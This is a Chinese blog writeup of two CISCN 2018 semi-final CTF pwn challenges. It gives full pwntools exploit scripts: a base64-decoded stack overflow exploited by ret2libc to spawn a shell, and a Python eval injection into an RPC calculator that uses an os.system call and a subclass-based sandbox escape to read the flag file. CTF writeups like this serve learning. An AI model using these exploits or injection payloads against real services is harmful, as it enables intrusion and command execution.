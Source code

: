 ```yaml
---
layout: article
title: ciscn 华南区半决赛的两道 pwn 题 writeup 
key: 20180612
tags:
  - CTF
  - PWN
typora-root-url: ..\
---
```


初学 pwn 没多久，功力还不够，所以只能刚出两道比较简单的 pwn 题。。

<!--more-->

## mirage_game (pwn4)

因为这个题是第一天放出来的，所以摆在 pwn1 的前面。在做这题之前我一直在刚 web7，一道有 backdoor.so 的 Web 题。。。搞了好久没搞出。于是去看看队友的 pwn 搞得怎样，一看发现事情并不简单，然后就转去搞 pwn 不管 Web 了（PS. 打完和别人交流发现其实 web7 快要出的了，血崩！）

好了，废话不多说。把 pwn4 拖进 IDA，F5 后简单浏览下 main 函数，发现有一个类型号为66的分支，调用了一个函数名很神奇的函数，最终进去就发现这就是漏洞点。

```c
__int64 sfadkjf()
{
  char dest; // [rsp+0h] [rbp-30h]
  char *src; // [rsp+20h] [rbp-10h]
  char *v3; // [rsp+28h] [rbp-8h]

  // ...
  v3 = malloc(0x100uLL);
  src = malloc(0x100uLL);
  // ...
  gets(v3, 0LL);
  base64_decode(v3, src);
  memcpy(&dest, src, 0x80uLL);
  // ...
}
```

但是这个漏洞并不像普通的栈溢出漏洞，它是把输入的内容进行 base64 解码之后，再复制到栈上，所以就不能简单的用 `pattern create 200` 来计算要溢出多少个字节。稍微棘手一点点，但还是不难。

首先向往常那样用 `pattern create 200` 创建200个每4字符互不相同的字符串，对它进行 base64 编码，再输入进 pwn4。然后用 gdb attach 上去调试，刚开始不知道出现在什么函数，不慌，一路 next 过去，就逐渐会跳回 sfadkjf 函数了。在 memcpy 之前记住栈上保存函数返回地址的地址，等字符串复制完之后找一下那里的字符串是什么，用 `pattern offset` 算一下就可以得出需要溢出56个字节了。接下来就是普通的 ROP 了。

因为 write 函数的参数比较难满足，所以用了 puts 函数来泄漏地址。

```python
# 泄漏 puts 的地址
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
prdi_ret = 0x0000000000403383 # ROPgadget --binary ./mirage_game --only "pop|ret" | grep "pop rdi"
sfadkjf  = 0x000000000040173C

payload = "A" * 56 + p64(prdi_ret) + p64(puts_got) + p64(puts_plt) + p64(sfadkjf)
payload = b64encode(payload)
io.sendline(payload)
io.recvuntil("t!\n")
result = io.recv(8)
io.recv()
puts_addr = int('0x' + hex(u64(result))[6:], 16)
print 'puts_addr ', hex(puts_addr)
```

需要注意的是，因为 sfadkjf 接收到 payload 之后会来一个 base64 解码，所以在发 payload 之前要先 base64 编码。拿到了 puts 的地址之后，就可以计算 system 和 "/bin/sh" 字符串的地址了，然后就可以 getshell 之后 getflag。

```python
# 计算 system 和 binsh 的地址，然后 getshell
base   = puts_addr - libc.symbols['puts']
system = base + libc.symbols['system']
binsh  = base + libc.search('/bin/sh').next()
print "system is ",  hex(system)
print "binsh is  ",  hex(binsh)

payload = "A" * 56 + p64(prdi_ret) + p64(binsh) + p64(system) + p64(prdi_ret) + p64(binsh) + p64(system)
payload = b64encode(payload)
io.sendline(payload)
print io.recv()

io.interactive()
```

[题目源文件下载地址](/assets/posts/2018-06-12-ciscn2018-semi-final-pwn-writeup/mirage_game.zip)

## pwn (pwn1)

第二天的 getflag 阶段只有3个小时，猜测题目应该不会很难，结果打脸了。这道 pwn1 好不容易才找到漏洞点，然而想不出怎么 patch，另一道 pwn6 直接就找不到漏洞点。。真的太菜了

这个的漏洞有点难定位（感觉我有可能是非预期解），丢进 IDA 看一下 Strings 窗口发现有一个字符串是 `"python -c 'print eval(\"%s\")'"` ，追踪上去，发现是位置在 4038F6 的函数使用了这个字符串。继续追踪上去就可以知道当类型号为3的时候，会进入到这函数里面。（后来才发现这是一个完全按照主办方说明写的 RPC 服务）运行这个 python 命令是为了把 python 当作一个计算器，实现主办方要求的表达式计算，但是却能被用来执行指令。

看一下各类型的含义：

>### 发送包
>
>#### connect -- type = 0
>
>连接包，在建立连接时确认连接建立成功，表示开启服务，没有自定义域，服务器收到返回 done 包。
>
>#### declare -- type = 1
>
>分配消息队列包，向服务器请求一个消息队列，分配一个消息队列 id 作为返回，包含在 result 包中。
>
>#### retrieve -- type = 2
>
>获取消息包，需要依次提供 `key` 和 `corr_id` 两个自定义域，均为字符串，域长度为32位以内。按照 key 所对应的消息队列，试图获取 `corr_id` 请求得到的结果。服务器收到之后确认 key 所对应的消息队列目前的队首消息是否为 `corr_id` 请求的结果，如果不是则返回 unavailable 包，否则弹出队首结果并且返回 result 。
>
>#### call -- type = 3
>
>发起请求包，依次提供 `reply_to`，`corr_id` 和 `expr` 三个域，同样为长度32位以内，均为字符串。发起一个请求，id 为 `corr_id` ，表达式内容为 `expr`，返回结果加入 `reply_to` 作为 key 所对应的消息队列。 成功返回 done 包。
>
>#### close -- type = 4
>
>无自定义域，停止本次连接，服务器接收到该包可以断开连接。

所以思路就有了，首先用类型号1，来获取一个消息队列 id 。（因为不涉及到溢出，所以加了个全局的 `context.endian = 'big'` ，省得后面每次都要写）

```python
# get corr_id
payload = b'RPCM' + p32(12) + p32(1)
io.send(payload)
corr_id = io.recv()[16:]
print corr_id
```

然后再用类型号3，按照指定格式发送需要计算的表达式，并指定存计算结果的 reply_to 为 “reply001”，这里把表达式替换成 python 命令，让 eval 去执行。

```python
# send expr
payload = p32(36) + corr_id + p32(8) + b'reply001'
payload += p32(34) + b'__import__(\\\"os\\\").system(\\\"pwd\\\")'
#payload += p32(16) + b'0x1000+0x25+0.11'
payload = b'RPCM' + p32(len(payload)+12) + p32(3) + payload
io.send(payload)
print io.recv()
```

最后用类型号2，使用之前的 corr_id 来获取计算结果，即命令运行结果。

```python
# get calc result
payload = p32(36) + corr_id + p32(8) + b'reply001'
payload = b'RPCM' + p32(len(payload)+12) + p32(2) + payload
io.send(payload)
print io.recv()
```

在本地跑发现，执行命令的时候，命令中间不能有空格，不管怎么转义都不行。。于是向队友求助，他丢给我一个 ciscn 初赛时候 python 沙箱的 payload，一跑通了，愉快地 getflag ~

```python
payload += p32(75) + b'().__class__.__bases__[0].__subclasses__()[40](\\\"/home/ciscn/flag\\\").read()'
```

[题目源文件下载地址](/assets/posts/2018-06-12-ciscn2018-semi-final-pwn-writeup/pwn.zip)

## 其他需要注意的

这次的 pwn 题都是 RPC 服务，协议格式是：

```
+----------+-----------+---------+------
| magic(4) | length(4) | type(4) | ...
+----------+-----------+---------+------
```

其中 length 和 type 是大端序，所以用 pwntools 打包数据时，要指定大端，如 `p32(26, endian='big') ` ，刚开始没考虑到这一点，折腾了好久。但是在进行栈溢出的时候，因为目标机器是 Linux 环境，用的是小端序，所以要切换回来。最好是按协议发的包才临时在后面加上个 `endian='big'` 。
